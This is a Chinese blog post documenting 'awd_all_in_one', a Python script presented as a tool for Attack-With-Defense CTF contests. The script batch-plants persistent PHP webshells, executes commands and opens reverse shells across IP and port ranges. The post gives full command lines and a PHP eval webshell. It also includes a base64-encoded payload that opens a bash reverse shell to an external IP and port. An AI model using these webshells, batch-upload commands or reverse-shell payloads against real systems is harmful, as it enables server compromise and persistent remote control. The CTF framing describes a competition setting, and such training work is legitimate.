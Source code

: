 ```yaml
---
title:  AWD工具
date: 2019-08-14 12:12:57
tags: 一些工具
description: awd_all_in_one
---
```


awd_all_in_one 是一个为awd比赛服务的脚本，旨在简化一些繁杂的批量代码编写,另外也是为了一些新手小白能好好体验下AWD的乐趣，当然学会写脚本是必须的，好的hacker必须是一个好的coder。注意：因为比赛调试需要，所有的脚本get、post请求都代理到了burp 即127.0.0.1 8080 如果不想改代码就开启burp（burp要添加127.0.0.1:8080监听）然后再运行脚本<!-- more -->
awd_all_in_one的功能主要是1、批量上传不死马，并且不死马的密码不一样 md5(ip+key) ，而且不同的密码不需要记录，因为都是md5(ip+key)生成，我们写批量脚本的时候直接自己生成密码即可。
2、批量执行函数，批量反弹shell
3、向文件追加内容并修改时间(这个现在还有缺陷，所以先不放了)

一共是三个模块 get post shell。前两个是写不死马一句话的(区别于一句话的GET 还是POST传参)，shell是个扩展函数 你可以用它来写一句话，也可以用它来执行系统命令 批量反弹shell 甚至 文件包含等，他只是提供了一个批量传值的功能，有疑问可以去看看 shell的函数。

这个脚本有16个参数需要传递，是不是被吓到了。不过别担心，下面我们就看下这些参数。

-ip                            指定目标ip
-ips                          指定目标ip段，支持192.168.253.1-3 和   									      192.168.253.0.1,192.168.253.2,192.168.253.3 两种参数传递方式
-port                         指定目标ip的端口 可以不传 默认是80
-ports                       指定多个端口 支持8080-8089 和 8088，8089两种传参方式。一般是用来测试    				那些自己搭建的AWD 没有多个ip      只能用端口来划分的awd测试
-f                              指定文件路径和文件名，这个参数是为了支持直接通过txt文本的读取来传马，txt				文件的格式如：http://192.168.1.1/1.php cmd
--dir                          已知一句话的路径（此路径是相对url访问来说的) 比如 已知一句话的地址是				     http://192.168.1.1/1.php 那么 --dir 1.php就可以了
--password              已知一句话对应的密码
--dir2                        要写入的路径（确保目录有可写入权限否则会报错，此路径是一直一句话路径的相对路径）
-key                         MD5加密的salt 可指定pass_base 1 ip 2 port 这样密码 也不需要保存 直接 				      python 生成就ok
--ptl                          网站所使用的协议 默认不传参为http
--pass_base            基于哪个来进行MD5 1 表示 ip 2 表示 port 默认是 1
-shell_method          shell传递形式 post 或者 get 默认是 post
-shell                        shell的值
-b64                         shell是否是base64传递进来的，简化一些传参的转义工作

上面就是所有的参数了，并不是所有参数都需要传递，但是建议传递所有的参数，下面我们举几个例子来用一下你就知道很简单了：

比如 我们已知 http://192.168.14.128/upload/bb-1.php 密码 cmd 是POST类型的
那么我们上传不死马需要这样玩儿
```powershell
python awd_all_in_one.py -ip 192.168.14.128 -port 80 --dir upload/aa-1.php --dir2 test_a.php --password cmd -key geez --ptl http --pass_base 1 -method post 
```

有些参数是默认的，当然绝大多数他们也是默认值那样，所以我们可以简化下
```powershell
python awd_all_in_one.py -ip 192.168.14.128 --dir upload/bb-1.php --dir2 test_a.php --password cmd -key geez
```
成功写入木马：
```php
<?php @eval($_POST['ee1dbe29997d539d4010c37e3ebab6a3']);?> 
```
地址：http://192.168.14.128/upload/test_a.php  
密码是由 192.168.14.128geez md5得来。同理我们可以指定port+salt的MD5值作为密码
我们也可以批量上传
```powershell
python awd_all_in_one.py -ips 192.168.14.133-134 -port 80 --dir upload/bb-1.php --dir2 test_a.php --password cmd -key geez --ptl http --pass_base 1 -method post 
```

我们也可以通过get 一句话木马 来批量上传 只需要改变 method 值为 get
比如 
```powershell
python awd_all_in_one.py -ips 192.168.14.133-135 -port 80 --dir upload/aa-1.php --dir2 ./a.php --password cmd -key geez --ptl http --pass_base 1 -method get
```

你也可以通过文件来上传：
```powershell
python awd_all_in_one.py -f test.txt --dir upload/aa-1.php --dir2 ./abbb.php --password cmd -key geez --ptl http --pass_base 1 -method get
```
```powershell
python awd_all_in_one.py -f test.txt --dir upload/bb-1.php --dir2 ./abbbccc.php --password cmd -key geez --ptl http --pass_base 1 -method post
```

我们还有一个模块是 shell 是用来执行自定义的命令和反弹shell使用的

单个执行
```powershell
python awd_all_in_one.py -ip 192.168.14.128 --dir upload/aa-1.php --password cmd -method shell -shell_method get -shell "system(whoami);"
```

批量执行
```powershell
python awd_all_in_one.py -ip 192.168.14.128 --dir upload/bb-1.php --password cmd -method shell -shell_method post -shell "system(whoami);"
```

反弹shell 管理shell的工具 这里就不提供了，可以用wangyihang写的那个Platypus：

``````powershell
python awd_all_in_one.py -ips 192.168.14.133-135 --dir upload/bb-1.php --password cmd -method shell -shell_method post -b64 1 -shell "c3lzdGVtKCJiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTQuMS85OTk5IDA+JjEnIik7"
```

-b64 1 表示 使用base64 传递 shell值 -shell_method 是一句话密码是GET 还是 POST 的区分

好了 如果你还需要扩展模块 只需要在主函数里面判断 传入的method 然后自己写一个函数进行调用就ok。当然目前这个脚本还是很low

